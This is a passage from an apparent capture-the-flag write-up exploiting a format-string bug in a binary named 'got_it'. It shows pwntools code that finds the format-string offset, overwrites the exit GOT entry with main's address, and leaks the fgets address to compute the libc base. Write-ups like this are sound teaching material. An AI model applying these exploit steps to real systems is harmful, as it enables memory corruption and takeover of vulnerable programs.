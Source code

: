 Output:

```
# ./base.py | grep -v ]
1 b'0x00007ffe77b98cc0'
2 b''
3 b''
4 b'0x000000000000000f'
5 b'0x000000000000000f'
6 b'0x0000002100000000'
7 b'0x00007ffebf62fdd8'
8 b'0x7038313024383025'
base: 8
```

It's a good idea to test this remotely as well--just in case.

Lastly:

```python
binary = ELF('got_it')
t=time.time()
```

Since each step takes a long time (remote), so I added a wall clock timer.


### First Pass: Get infinite free passes (`exit` -> `main`)

```python
print('1st pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(www64x16fs(binary.symbols['main'],binary.got['exit'],8,3))
print(time.time()-t)
```

Having that _write-what-where_ function makes this pretty clear, just overwrite the `exit` GOT entry with the address of `main`.  The `base` of `8` was determined above, and only a `count` of `3` is required since we're replacing 48-bits with 48-bits (x86_64 addresses are 48-bits).

Now we can leak, read, write just about anything we want.


### Second Pass: Leak libc address (unmolested `fgets`)

```python
print('2nd pass...')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(rww64fs(binary.got['fgets'],8))
p.recvuntil('I don\'t think "')
_ = p.recv(6)
fgets = u64(_ + b'\x00\x00')
print('  fgets:',hex(fgets))
baselibc = fgets - libc.symbols['fgets']
print('  libc: ',hex(baselibc))
p.send('\n\n')
print('2nd pass...',end='')
print(time.time()-t)
```
